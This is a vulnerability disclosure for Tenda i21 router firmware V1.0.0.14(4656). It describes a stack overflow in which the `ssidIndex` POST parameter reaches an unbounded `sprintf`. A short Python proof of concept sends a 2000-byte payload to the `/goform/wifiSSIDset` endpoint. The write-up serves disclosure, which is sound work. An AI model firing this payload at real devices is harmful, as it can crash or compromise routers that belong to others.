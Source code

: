 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2982.html

## Affected version

i21 V1.0.0.14(4656)

## Vulnerability details

In the i21 V1.0.0.14(4656) firmware has a stack overflow vulnerability in the `formwrlSSIDset` function. The `index` variable receives the `ssidIndex` parameter from a POST request. However, since the user can control the input of `ssidIndex`, the statement `sprintf(mib_prefix, "wl2g.ssid%s.", index);` can cause a buffer overflow. The user-provided  `ssidIndex` can exceed the capacity of the `mib_prefix` array, triggering this security vulnerability.

![image-20240419162724188](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162724188.png)

![image-20240419162705992](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162705992.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/wifiSSIDset"
payload = b"a"*2000

data = {"radio": "2.4G", "ssidIndex": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
